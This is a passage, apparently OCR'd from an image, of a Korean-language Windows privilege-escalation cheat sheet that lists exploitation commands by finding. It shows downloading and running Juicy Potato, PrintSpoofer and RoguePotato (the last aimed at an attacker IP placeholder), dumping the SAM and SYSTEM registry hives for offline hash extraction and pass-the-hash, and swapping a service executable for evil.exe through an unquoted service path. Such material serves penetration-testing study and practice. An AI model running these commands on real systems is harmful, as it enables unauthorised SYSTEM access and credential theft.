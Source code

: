 - [ ] **환경 변수**
  ```cmd
  set
  echo %PATH%
  echo %PATHEXT%
  ```

## 🎯 발견별 익스플로잇 방법

### 🔑 특권 토큰 발견시

#### SeImpersonatePrivilege 또는 SeAssignPrimaryTokenPrivilege

```cmd
# Juicy Potato (Windows Server 2016 이하)
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {CLSID}

# PrintSpoofer (Windows 10/Server 2019+)
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
PrintSpoofer64.exe -i -c cmd

# RoguePotato
wget https://github.com/antonioCoco/RoguePotato/releases/download/1.0/RoguePotato.exe
RoguePotato.exe -r {ATTACKER_IP} -e "cmd.exe" -l 9999
```

#### SeDebugPrivilege

```powershell
# 프로세스 토큰 훔치기
psgetsid.exe -accepteula
# 또는
Get-Process winlogon | Select-Object Id
```

#### SeBackupPrivilege

```cmd
# SAM 및 SYSTEM 레지스트리 덤프
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system
# 오프라인에서 해시 추출 후 Pass-the-Hash
```

### 🔧 서비스 취약점 발견시

#### Unquoted Service Path

```cmd
# 취약한 서비스 찾기
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

# 악용 - 실행 파일 교체
sc stop "Vulnerable Service"
copy evil.exe "C:\Program Files\Some Service\Service.exe"
sc start "Vulnerable Service"
```
